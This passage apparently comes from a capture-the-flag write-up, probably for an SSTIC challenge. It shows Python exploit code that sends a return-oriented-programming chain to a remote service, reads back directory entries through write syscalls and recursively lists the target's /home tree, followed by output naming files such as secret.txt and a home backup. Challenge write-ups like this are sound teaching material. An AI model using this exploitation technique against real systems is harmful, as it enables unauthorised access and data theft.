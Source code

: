 ```python
        # write(5, dataspace, rax+1)
        inc_rax,
        mov_rdx_rax,
        pop_rdi, 5,
        pop_rsi, dataspace,
        exebase + 0x20c0,
        # write(5, "__END_DATA__", 12)
        pop_rdi, 5,
        pop_rsi, add_data(b"__END_DATA__"),
        pop_rdx_rcx_rbx, 12, 0, 0,
        exebase + 0x20c0,
        # close(7)
        pop_rdi, 7,
        exebase + 0x2190,
    ] + roploop
    rop = flat(rop).ljust(offset, b"\0")
    assert len(rop) == offset
    rop += ropdata
    s.send(rop)

    res = s.recvuntil(b"__END_DATA__", drop=True)
    recs = []
    ptr = 0
    while ptr < len(res) - 1:
        d_ino, d_off, d_reclen, d_type = struct.unpack_from("<QqHB", res, ptr)
        d_name = res[ptr+19:ptr+d_reclen].split(b"\0")[0].decode("latin1")
        recs.append(DirEntry(d_ino, d_off, d_type, d_name))
        ptr += d_reclen
    return recs

def dump_rec(dir, indent=0):
    recs = getdents(dir)
    for rec in recs:
        print(f"{'  '*indent}{rec.name} type={rec.ftype} inode={rec.inode}")
        if rec.ftype == 4 and rec.name not in (".", ".."):
            dump_rec(f"{dir}/{rec.name}", indent + 1)

dump_rec("/home")
```

This produces the following output:

```
. type=4 inode=14
.. type=4 inode=1
sstic type=4 inode=15
  . type=4 inode=15
  .. type=4 inode=14
  ftp.log type=8 inode=385
  sensitive type=4 inode=19
    . type=4 inode=19
    .. type=4 inode=15
    m00n.txt type=8 inode=22
    home_backup.tar.zz type=8 inode=21
    zz type=8 inode=20
  info.txt type=8 inode=18
  server type=8 inode=17
  secret.txt type=8 inode=16
```
